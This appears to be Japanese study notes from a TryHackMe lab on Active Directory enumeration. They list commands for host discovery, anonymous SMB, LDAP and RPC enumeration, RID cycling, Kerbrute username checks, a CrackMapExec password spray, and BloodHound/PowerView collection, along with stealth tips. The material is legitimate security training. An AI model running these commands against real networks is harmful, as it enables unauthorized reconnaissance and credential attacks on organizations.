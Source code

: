 # AD 列挙

https://tryhackme.com/room/adbasicenumeration

## 認証なしの列挙

### ネットワークマッピング

#### ホスト検出

```shell
fping -agq 10.211.11.0/24
```

### nmap

```shell
# Kerberos, PRC, 従来のSMB, LDAP, 最新のSMB, kpasswd
nmap -p 88,135,139,389,445 -sV -sC -iL hosts.txt

# フルポート
nmap -sS -p- -T3 -iL hosts.txt -oN full_port_scan.txt
```

### SMB 列挙

```sh
# 列挙（-N : NoPassword）
smbclient -L //10.211.11.10 -N

# 接続
smbclient //10.211.11.10/SharedFiles -N

# 多彩な情報
enum4linux -a TARGET_IP > enum4linux.txt
```

### ドメイン列挙

```sh
# LDAP列挙
# -x: シンプルな認証。この場合は匿名認証。
# -H: LDAP サーバーを指定。
# -s: クエリを基本オブジェクトのみに制限し、サブツリーや子オブジェクトは検索しない。
ldapsearch -x -H ldap://10.211.11.10 -s base
```

```sh
# ユーザー情報照会
ldapsearch -x -H ldap://10.211.11.10 -b "dc=tryhackme,dc=loc" "(objectClass=person)"
```

```sh
# 可能な限り多くの情報を取得
enum4linux-ng -A 10.211.11.10 -oA results.txt
```

```sh
# RPC列挙（Nullセッション）
rpcclient -U "" 10.211.11.10 -N

> enumdomusers
> help
```

```sh
# RIDサイクリング
for i in $(seq 500 2000); do echo "queryuser $i" |rpcclient -U "" -N 10.211.11.10 2>/dev/null | grep -i "User Name"; done
```

```sh
# RIDからユーザー名
enum4linux -R 1000-1003 $TARGET
```

```sh
# Kerbruteによるユーザー名の列挙（有効なユーザー名かどうか表示される）
kerbrute userenum --dc 10.211.11.10 -d tryhackme.loc users.txt
```

https://github.com/ropnop/kerbrute/releases

### パスワードスプレー

```sh
# パスワードポリシーの照会
rpcclient -U "" 10.211.11.10 -N
rpcclient $> getdompwinfo
```

```sh
# パスワードポリシーの照会
crackmapexec smb 10.211.11.10 --pass-pol
```

```sh
# パスワードスプレー攻撃
crackmapexec smb 10.211.11.20 -u users.txt -p passwords.txt
```

## 認証ありの列挙

### runas

ドメイン名、ユーザー名、パスワードを知っているが、ドメインに参加している PC には直接ログインできないとする。

資格情報をメモリに挿入する。  
/netonly のため、資格情報はドメイン コントローラによって直接検証されず、任意のパスワードが受け入れられることに注意

```ps
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

DNS を構成する

```ps
$dnsip = "<DC IP>"
$index = Get-NetAdapter -Name 'Ethernet' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip

# DNSが機能しているか確認
nslookup za.tryhackme.com
```

資格情報が正しいか確認。  
ホスト名指定すると Kerberos 認証になる。IP を指定すると NTLM 認証を強制することができ、NTLM 認証の方がステルス性が高い。

```ps
dir \\za.tryhackme.com\SYSVOL\
```

### GUI

リモート サーバー管理ツール(RSAT)  
アプリと機能から RSAT をインストールできる。

runas で起動したプロンプトから、rsat を起動。  
あとは GUI での操作。

```ps
mmc
```

### コマンドプロンプト

ドメインに参加しているマシンから実行する必要がある。

https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/net-commands-on-operating-systems

```shell
# ドメイン内の全ユーザーを列挙
net user /domain

# ユーザーの詳細情報
net user <username> /domain

# ドメインのグループを列挙
net group /domain

# グループのメンバーシップ詳細
net group "Tier 1 Admins" /domain

# パスワードポリシー
net accounts /domain
```

### Powershell

コマンドプロンプトより監視されている可能性は高いことに注意

https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps

```ps
# ユーザーの詳細情報
Get-ADUser -Identity <username> -Properties *

# フォーマット例
Get-ADUser -Filter 'Name -like "*stevens"' | Format-Table Name,SamAccountName -A

# グループの列挙
Get-ADGroup -Identity Administrators

# グループメンバーシップ
Get-ADGroupMember -Identity Administrators

# 特定の日付以降
$ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00)

Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects

# badPwdCount が 1 より大きいアカウント
Get-ADObject -Filter 'badPwdCount -gt 0'

# ドメイン
Get-ADDomain

# パスワード変更
Set-ADAccountPassword -Identity <username> -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)
```

### Bloodhound

https://github.com/BloodHoundAD/BloodHound

SharpHound で列挙し、Bloodhound でグラフ化する。

SharpHound 列挙は大量のイベントログを生成するため、初回は All、次回以降はセッションのみといった運用が必要。セッションは頻繁に列挙しなおす必要がある。

```ps
# 全部列挙
# アウトプットとして zipファイルが作成される
SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs

# セッションだけ
SharpHound.exe --CollectionMethods Session --Domain za.tryhackme.com --ExcludeDCs
```

```shell
# kali に zip をコピー
scp <AD Username>@THMJMP1.za.tryhackme.com:C:/Users/<AD Username>/Documents/<Sharphound ZIP> .
```

Bloodhound には neo4j のインストールが必要。

```shell
sudo neo4j console
```

Bloodhound を起動  
SharpHound のバージョンと一致させる必要がある点に注意。

```shell
bloodhound --no-sandbox
```

GUI に zip ファイルを D&D したらインポートされる。

### PowerView

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Powershell の起動とロード

```ps
powershell -ep bypass
. .\PowerView.ps1
```

```ps
# ドメインユーザーの列挙
Get-NetUser | select cn

# ドメイングループの列挙
Get-NetGroup -GroupName *admin*
```

コマンドチートシート
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
